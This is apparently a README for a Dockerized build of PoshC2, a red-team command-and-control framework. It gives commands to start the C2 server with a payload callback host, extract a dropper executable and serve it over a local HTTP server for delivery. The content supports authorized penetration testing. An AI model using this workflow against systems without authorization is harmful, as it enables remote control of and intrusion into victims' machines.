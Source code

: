 # Docker PoshC2

PoshC2 is a proxy aware C2 framework used to aid penetration testers with red teaming, post-exploitation and lateral movement. This is a dockerized version of it on the top of an Ubuntu box with an entrypoint script to pass environment variables and update the main server config when running the docker image.

## Getting Started


### Pull remote image

```
docker image pull cyb3rward0g/docker-poshc2:20210315
```

### tag docker image

```
docker tag cyb3rward0g/docker-poshc2:20210315 poshc2
```

### Run the Posh server

```
sudo docker run -ti -d -p 443:443 -e PAYLOAD_COMMS_HOST=https://192.168.2.7 --name poshc2 poshc2
sudo docker exec -ti poshc2 bash
posh-project -n rce
posh-server
```

### Download Poshc2 Payload of Interest

```
sudo docker cp psh:/var/poshc2/rce/payloads/dropper_cs_ps_v4.exe .
```

### Host Payoad

```
python3 -m http.server 
```

### Run the Posh client

```
sudo docker exec -ti poshc2 bash
posh -u wardog
```